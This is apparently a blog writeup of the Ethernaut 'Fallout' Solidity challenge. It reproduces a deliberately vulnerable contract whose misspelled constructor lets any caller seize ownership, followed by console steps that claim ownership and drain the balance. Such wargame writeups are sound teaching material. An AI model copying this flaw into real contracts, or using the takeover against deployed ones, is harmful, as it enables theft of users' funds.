 ```yaml
---
layout: post
title: Ethernaut - 2.Fallout
date:  2022-08-24
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌑🌑🌑🌑
> Claim ownership of the contract below to complete this level.<br /><br />
  Things that might help 
  - Solidity Remix IDE

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## Writeup
1. Get new instance
2. `await contract.owner()` to check contract owner, it return address 0x0000000000000000000000000000000000000000.
3. Use `await contract.allocatorBalance(YOUR_ADDRESS).then(v=>v.toString())` to check balance, it return zero.
4. `await contract.Fal1out({ value: toWei("0.00001") })`
5. Call function `allovatorBalance` again like step3, we can see out balance become 10000000000000 now.
6. `await contract.collectAllocations()`
7. Submit instance ξ( ✿＞◡❛)